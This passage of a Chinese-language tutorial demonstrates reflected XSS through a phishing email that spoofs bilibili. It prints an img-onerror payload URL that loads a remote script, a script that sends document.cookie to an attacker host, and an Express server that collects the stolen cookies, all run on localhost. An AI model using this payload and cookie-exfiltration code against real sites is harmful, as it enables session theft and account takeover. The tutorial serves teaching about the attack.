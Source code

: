 ![xss email](/images/xss-email.png)

我们可以发现，这封邮件其实就是钓鱼邮件，但和真的邮件非常像。

只不过其发送者不是 `bilibili`，而是 `bilibiili`。

而他们提供的链接，究竟去到哪里呢？

![xss link](/images/xss-link.png)

我们可以看见，这里真实的 url 为刚才那个防御薄弱的网站。

如果取消 escape，我们可以看见链接是这样的：

`http://localhost:8081/result?q=<img src=null onerror="var script = document.createElement('script');       script.src = 'http:\/\/localhost:8082/danger';body.appendChild(script);" />`

也就是说，当你进入这个页面的时候，就执行了位于 `localhost:8082/danger` 的脚本。

那么问题来了，为什么要走 img，而不是直接调用 script 标签？

因为使用 innerHTML 的时候，无法动态添加 script 标签并执行。

因此，我们的客户端对 XSS 攻击稍微有一点抗性的嘛...

### 攻击者的攻击脚本

一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});
```